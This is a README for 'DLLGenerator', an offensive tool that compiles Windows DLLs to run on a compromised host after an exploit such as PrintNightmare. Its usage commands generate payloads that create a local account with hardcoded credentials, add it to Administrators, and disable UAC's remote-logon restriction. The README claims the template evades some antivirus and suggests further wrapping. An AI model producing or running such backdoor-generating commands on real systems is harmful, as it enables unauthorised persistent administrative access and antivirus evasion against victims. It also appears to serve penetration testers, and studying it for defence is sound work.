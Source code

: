 # DLLGenerator

## What ? 

Dllgenerator is a quick tool to generate DLL, it is designed to be quickly effective. 

## Why ? 

Sometimes you can only execute one DLL on a remote machine, and you have no connect back possible because of AV (like in the printnightmare exploit).

To bypass this you can : 
 - Create a local account
 - Add your local account to Administrators ( or Administrateurs 🇫🇷)
 - Disable UAC control 

Seems easy no ? 
In fact it is ! But it's boring to keep one file somewhere and don't remember how it works.
And one day you remove one line (uac for example) and you forgot it ..

## How ? 

Dllgenerator is based on a template file that (on july 2022) still bypass some AV. 
It takes your input and generate a sexy DLLFile with it. 
DLL is not encoded or whatever, but you may consider put it in a wrapper. 

## Dependency 

A cross compiler `mingw-w64-gcc` is used by default but you can customise the `--compiler` parameter.


## Man 

```
python generator.py 
usage: generator.py [-h] [--action {create_user,add_to_group,unset_uac} [{create_user,add_to_group,unset_uac} ...]] [--username USERNAME] [--password PASSWORD] [--group GROUP]
                    [--wrapper WRAPPER] [--compiler compiler] [--output OUTPUT]

______ _ _                                   _             
|  _  | | |                                 | |            
| | | | | |   __ _  ___ _ __   ___ _ __ __ _| |_ ___  _ __ 
| | | | | |  / _` |/ _ | '_ \ / _ | '__/ _` | __/ _ \| '__|
| |/ /| | | | (_| |  __| | | |  __| | | (_| | || (_) | |   
|___/ |_|_|  \__, |\___|_| |_|\___|_|  \__,_|\__\___/|_|   
              __/ |                                        
             |___/                                         
        Version : 1.0
        Author : shoxxdj

options:
  -h, --help            show this help message and exit
  --action {create_user,add_to_group,unset_uac} [{create_user,add_to_group,unset_uac} ...]
                        Main action
  --username USERNAME, -u USERNAME
                        Your username
  --password PASSWORD, -p PASSWORD
                        Your password matching the rules
  --group GROUP, -g GROUP
                        The group, tips for FR it's Administrateur
  --wrapper WRAPPER, -w WRAPPER
                        A command wrapper
  --compiler compiler, -c compiler
                        A C compiler : 'i686-w64-mingw32-gcc -lnetapi32' is an option
  --output OUTPUT, -o OUTPUT
                        path and name of your dll

```

### Create your first DLL 

```
python generator.py --action create_user add_to_group unset_uac
```
This will : 
- Create a local account : hoppy / H0pBreWedW1thl0v3 
- Add the account hoppy to group Administrators
- Set the regitry key to disable the functionnality in UAC that prevent remote connection
- Output as hoppy.dll in local directory

### Create a custom DLL 
```
python generator.py --action create_user add_to_group -u malt -p Il0v3b33r5 -g BrewersGroup -o /tmp/beer.dll
```
This will :
- Create a local account malt / Il0v3b33r5
- Add the account malt to BrewersGroup
- Output to /tmp as beer.dll


### Docker
``` 
docker build -t dllgenerator .
docker run -it --rm -v $PWD:/dllgenerator dllgenerator:latest --action create_user add_to_group unset_uac --output ./test.dll
```

### WARNING

Don't forget to clean the target machine ! Delete the user and delete the registry key if created

```
reg delete HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy
```
